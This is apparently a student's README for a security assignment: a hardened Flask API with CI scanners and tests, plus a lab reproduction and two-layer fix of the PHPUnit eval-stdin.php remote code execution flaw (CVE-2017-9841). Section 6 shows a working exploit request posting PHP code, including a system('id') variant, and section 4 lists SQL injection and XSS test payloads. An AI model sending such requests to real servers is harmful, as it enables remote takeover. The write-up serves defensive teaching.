






# Information Security — Work 1

A deliberately-hardened REST API (Python/Flask) with an automated SAST/SCA pipeline, plus a
full reproduction, root-cause analysis and remediation of the real vulnerability
**CVE-2017-9841** in a Vulhub environment.

- Student: **lnlight** (23320313)
- Repository: <https://github.com/lnlight05/Information-Security-Work1>
- Latest successful pipeline run:
  <https://github.com/lnlight05/Information-Security-Work1/actions/runs/39890376916>

---

## 1. Repository layout

```
.
├── app.py                                  Flask application: routes, auth middleware, headers
├── security.py                             password hashing, JWT issuing/verification, escaping
├── db.py                                   SQLite data layer, parameterized queries only
├── selfcheck.py                            15 automated assertions against the API
├── requirements.txt                        Flask + PyJWT (the only two dependencies)
├── .github/workflows/ci.yml                SAST + SCA + self-check on every push and PR
├── fixes/CVE-2017-9841/                    the fixed vulnerable environment (see section 7)
│   ├── Dockerfile
│   └── docker-compose.yml
└── docs/images/                            screenshots referenced below
```

---

## 2. Quick start

```bash
python -m venv .venv
source .venv/bin/activate        # Windows: .venv\Scripts\activate
pip install -r requirements.txt

python app.py                    # serves http://127.0.0.1:5000
python selfcheck.py              # runs the 15 automated checks
```

The database is created and seeded automatically on first start with two demo users:

| login | password |
|---|---|
| `alice` | `secret123` |
| `bob` | `hunter2` |

> The secret used to sign JWTs is read from the `APP_SECRET` environment variable. The
> built-in default is a development fallback only; deployments must set their own value.

---

## 3. API reference

| Method | Path | Auth | Description |
|---|---|---|---|
| `POST` | `/auth/login` | public | takes `login` and `password`, returns a JWT |
| `GET` | `/api/data` | JWT | list of users; optional `?q=` substring filter |
| `POST` | `/api/posts` | JWT | create a post (`content`, max 1000 chars) — the self-chosen endpoint |

### Examples

```bash
# 1. authenticate
curl -s -X POST http://127.0.0.1:5000/auth/login \
     -H 'Content-Type: application/json' \
     -d '{"login":"alice","password":"secret123"}'
# -> {"token":"eyJ...","token_type":"Bearer","expires_in":3600}

# 2. read data with the token
curl -s http://127.0.0.1:5000/api/data -H "Authorization: Bearer $TOKEN"
# -> {"count":2,"users":[...]}

# 3. same request without a token
curl -s -o /dev/null -w '%{http_code}\n' http://127.0.0.1:5000/api/data
# -> 401

# 4. create a post
curl -s -X POST http://127.0.0.1:5000/api/posts -H "Authorization: Bearer $TOKEN" \
     -H 'Content-Type: application/json' -d '{"content":"hello"}'
# -> 201 {"id":2,"content":"hello"}
```

---

## 4. Implemented security measures

### 4.1 SQL injection (A03:2021 — Injection)

Every query lives in `db.py`. The SQL text is a constant and **user input only ever travels in
the parameter tuple** — there is no f-string, no `%` and no `+` building a statement:

```python
pattern = "%" + search + "%"          # this concatenation builds a *value*
return conn.execute(
    "SELECT * FROM users WHERE username LIKE ? ORDER BY id",   # the SQL text never changes
    (pattern,),
).fetchall()
```

Injection is therefore structurally impossible rather than "filtered": the parser receives
the statement and the data separately. `selfcheck.py` verifies that the payloads
`alice' OR '1'='1`, `' OR 1=1--`, `admin'--` and `' OR 1=1--` in `?q=` all fail.

### 4.2 XSS (A03:2021 — Injection)

The raw text is stored unchanged and **escaped on output** with `html.escape(..., quote=True)`,
so the database keeps the real value and only the response is neutralized. Every user-controlled
field (`username`, `bio`, `post content`) goes through `security.escape()`.

The visible proof is the create-post response: sending `<script>alert(1)</script>` as the content
returns `&lt;script&gt;alert(1)&lt;/script&gt;`, so the same string that would be a live script in
a browser comes back as inert text. `selfcheck.py` asserts exactly that.

Additional hardening headers are set on every response: `X-Content-Type-Options: nosniff`,
`X-Frame-Options: DENY`, `Cache-Control: no-store`.

### 4.3 Authentication (A07:2021 — Identification and Authentication Failures)

- **Password storage** — `hashlib.scrypt` (N=2¹⁴, r=8, p=1, 16-byte random salt per user),
  stored as `scrypt$<salt>$<derived key>`. Verification uses `hmac.compare_digest`, so it is
  constant-time. scrypt is a memory-hard KDF, which makes offline cracking of a leaked database
  far more expensive than a fast hash such as SHA-256, and — unlike bcrypt/Argon2 — it needs no
  native extension.
- **JWT** — HS256, issued on successful login with `sub`, `username`, `iat` and a one-hour `exp`.
  Verification pins the algorithm (`algorithms=["HS256"]`), which blocks both the `alg: none`
  attack and algorithm-confusion attempts.
- **Middleware** — a single `require_auth` decorator guards every protected endpoint. Missing,
  malformed, tampered or expired tokens all produce `401`; the same answer is given for an
  unknown user and a wrong password, so the login endpoint does not leak which accounts exist.

---

## 5. CI/CD pipeline with security scanners

`.github/workflows/ci.yml` runs on **every push and every pull request**:

| Step | Tool | What it checks |
|---|---|---|
| SAST | **bandit** | static analysis of our own Python code |
| SCA | **pip-audit** | known vulnerabilities in the pinned dependencies |
| Functional | `selfcheck.py` | the 15 security assertions still hold |

The reports are printed into the job log and uploaded as the `security-reports` artifact.

### Result of the latest run



Bandit reports **0 issues** (high/medium/low) and pip-audit reports **no known vulnerabilities**
for the two pinned dependencies.




**Note on the five suppressed warnings.** Bandit initially reported five low-severity findings,
all of them false positives: `token_type="Bearer"` (the keyword argument contains the word
"token") and four dummy passwords inside the test harness. Each of the five lines carries a
bare `# nosec`, rather than hiding the rules globally with a severity filter or a config-level
`skips`. A bare `nosec` is used instead of `nosec B105` because bandit emits a spurious
"no failed test" warning when the rule id is given. Running bandit with `--ignore-nosec`
reproduces exactly those five findings, which proves the suppression is deliberate and limited
to those lines.

---

## 6. CVE-2017-9841 — PHPUnit remote code execution

### 6.1 The vulnerability

PHPUnit versions **4.8.19 – 4.8.27** and **5.0.10 – 5.6.2** ship the file
`vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`, which contains:

```php
<?php
eval('?>' . file_get_contents('php://input'));
```

The raw HTTP request body is passed straight to `eval()`. If the `vendor/` directory is
web-reachable — the common consequence of running `composer install` in a project's document
root — then **any** HTTP POST to that URL is executed as PHP code on the server.

Vulnerable environment used: `vulhub/phpunit:5.6.2` from
[Vulhub](https://github.com/vulhub/vulhub/tree/master/phpunit/CVE-2017-9841), served on
`http://127.0.0.1:8080`.

### 6.2 Reproduction

```bash
cd vulhub/phpunit/CVE-2017-9841
docker compose up -d
```

The web root contains only `composer.json`, `composer.lock` and the exposed `vendor/` directory:

```
--- webroot ---
-rw-r--r-- 1 root root    62 Oct 15  2020 composer.json
-rw-r--r-- 1 root root 51342 Oct 15  2020 composer.lock
drwxr-xr-x 12 root root  4096 Oct 15  2020 vendor
--- vulnerable file ---
-rw-r--r-- 1 root root    54 Oct 25  2016 .../src/Util/PHP/eval-stdin.php
--- source ---
<?php

eval('?>' . file_get_contents('php://input'));
```

The exploit is a single POST whose body is the PHP we want to run:

```bash
curl -s -d "<?php echo 'PWNED-'.(7*7); ?>" \
  http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```



The response is `PWNED-49`, not the source text: `49` is the result of `7*7` computed **on the
server**, which proves remote code execution rather than mere reflection. The same request with
`<?php system('id'); ?>` returns the web server's user id.

### 6.3 Root cause

Two independent conditions must hold at the same time, and in this deployment both do.

1. **Dangerous code in the dependency.** `eval-stdin.php` was written as a helper for running
   PHP snippets from *standard input* — a local, developer-facing convenience. Reading
   `php://input` instead of `STDIN` and feeding the result to `eval()` makes it an
   unauthenticated code-execution primitive for anyone who can reach the file over HTTP.
2. **Deployment mistake.** Composer's `vendor/` directory is an internal artifact of dependency
   management; it belongs outside the document root. Here the whole directory is served by
   Apache, so a file that was never meant to be an endpoint became one.

Neither factor alone is enough: a patched PHPUnit removes the primitive, and a correct document
root hides it. This is why the remediation below addresses both layers.

### 6.4 The fix

The fix lives in [`fixes/CVE-2017-9841/`](fixes/CVE-2017-9841/) and does **not** modify the
Vulhub reference environment:

```dockerfile
FROM vulhub/phpunit:5.6.2

# Layer 1: remove the vulnerable entry point.
RUN rm -f /var/www/html/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

# Layer 2: composer dependencies must never be web-reachable.
RUN printf '%s\n' \
      '<Directory /var/www/html/vendor>' \
      '    Require all denied' \
      '</Directory>' \
      > /etc/apache2/conf-enabled/deny-vendor.conf
```

**Why this is effective**

- Removing the file eliminates the code path itself — there is nothing left to `eval()` the
  body, even if a future configuration change re-exposes `vendor/`.
- Denying the directory at the web-server level rebuilds the isolation that was missing: no
  file installed by composer is reachable over HTTP, so the same class of mistake cannot be
  exploited through some other vendored script.
- The two layers are independent. Either one alone would stop this specific attack; together
  they cover both the code flaw and the deployment flaw identified in the root cause.

The proper upstream remedy is to upgrade to **PHPUnit 5.6.3 / 4.8.28** (or later) and to keep
`vendor/` outside the document root. The container above simulates what an operator can do
immediately without touching the application's own code.

Rebuild and start:

```bash
cd fixes/CVE-2017-9841
docker compose up --build -d
```

### 6.5 Proof that the vulnerability is eliminated

The vulnerable file no longer exists:

```bash
$ docker compose exec web ls -la /var/www/html/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
ls: cannot access '...': No such file or directory
```

The identical exploit request is now rejected and returns no output:

```bash
$ curl -s -w "\nHTTP %{http_code}\n" -d "<?php echo 'PWNED-'.(7*7); ?>" \
    http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
...
HTTP 403
```



**Regression test** — the server still works for legitimate content. `composer.json` is served
exactly as before the fix:

```bash
$ curl -s -o /dev/null -w "HTTP %{http_code}\n" http://127.0.0.1:8080/composer.json
HTTP 200
```



---

## 7. Automated self-check

`selfcheck.py` exercises the API through Flask's test client and asserts the security
properties directly, so the claims above are reproducible rather than asserted:

```
[PASS] login with valid credentials returns 200 + token
[PASS] login with wrong password is rejected (401)
[PASS] login for unknown user is rejected (401)
[PASS] SQLi in login rejected: "alice' OR '1'='1"
[PASS] SQLi in login rejected: "' OR 1=1--"
[PASS] SQLi in login rejected: "admin'--"
[PASS] SQLi in ?q= filter matches nothing (no row leak)
[PASS] GET /api/data without token is denied (401)
[PASS] GET /api/data with a bogus token is denied (401)
[PASS] GET /api/data with a tampered signature is denied (401)
[PASS] GET /api/data with a valid token returns the users
[PASS] POST /api/posts without token is denied (401)
[PASS] POST /api/posts with a valid token creates the post (201)
[PASS] the <script> payload comes back escaped, not executable
[PASS] password is stored as a scrypt hash, never plaintext

==== PASS=15 FAIL=0 ====
```

---

## 8. Cleanup

The vulnerable environment is deliberately insecure. It runs on `127.0.0.1` only and should be
removed when finished:

```bash
cd fixes/CVE-2017-9841 && docker compose down
cd vulhub/phpunit/CVE-2017-9841 && docker compose down
```
